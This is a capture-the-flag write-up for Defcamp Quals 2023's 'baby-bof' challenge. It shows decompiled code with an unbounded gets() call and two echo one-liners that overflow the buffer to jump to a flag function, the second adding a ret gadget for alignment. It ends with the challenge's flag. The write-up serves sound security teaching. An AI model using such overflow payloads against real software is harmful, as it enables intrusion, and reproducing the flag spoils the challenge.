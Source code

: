 ```yaml
---
title: baby-bof
type: writeup
date: 2023-10-22T09:56:31+03:00
description: Writeup for baby-bof [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

This is a basic buffer overflow.

Flag format: CTF{sha256}

### Intuition

By decompiling we see an obvious buffer overflow and a ``flag`` function that we can jump to.

```c
void flag(void)
{
  char local_98 [136];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Well done!! Now use exploit remote! ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_98,0x80,local_10);
  printf(local_98);
  return;
}


/* Called by the main function */
void vuln(void)
{
  char local_138 [304];
  
  gets(local_138);
  return;
}

```
PIE is not enabled so we can just hardcode the addresses in an echo.

### Solution

Simply echo to the binary:
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
Please enter the flag: 
Segmentation fault (core dumped)
```
This crashes because of alignment issues. Let's fix it with a ret gadget address (found with ROPGadget) to align it back:

```
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x05\x40\x00\x00\x00\x00\x00\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
```

#### Flag

```ctf{c7fabc6bfe7e4b40b78244854f95f089414bb8354e021f89fe632202bb35ef99}```
